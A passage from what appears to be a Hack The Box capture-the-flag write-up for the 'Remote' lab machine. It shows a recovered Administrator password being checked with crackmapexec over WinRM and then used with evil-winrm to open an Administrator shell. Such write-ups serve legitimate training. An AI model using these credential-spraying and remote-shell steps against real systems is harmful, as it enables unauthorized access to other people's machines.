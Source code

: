 It found `Administrator`'s password : `!R3m0te!`

Let's test where it works.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec winrm 10.10.10.180 -u Administrator -p '!R3m0te!'
SMB         10.10.10.180    5985   REMOTE           [*] Windows 10 / Server 2019 Build 17763 (name:REMOTE) (domain:remote)
HTTP        10.10.10.180    5985   REMOTE           [*] http://10.10.10.180:5985/wsman
WINRM       10.10.10.180    5985   REMOTE           [+] remote\Administrator:!R3m0te! (Pwn3d!)
```

It's working on `winrm`! I can open a shell as `Administrator` using `evil-winrm`!
Let's open a shell!

```bash
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.10.10.180 -u Administrator -p '!R3m0te!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
remote\administrator
```

I got root!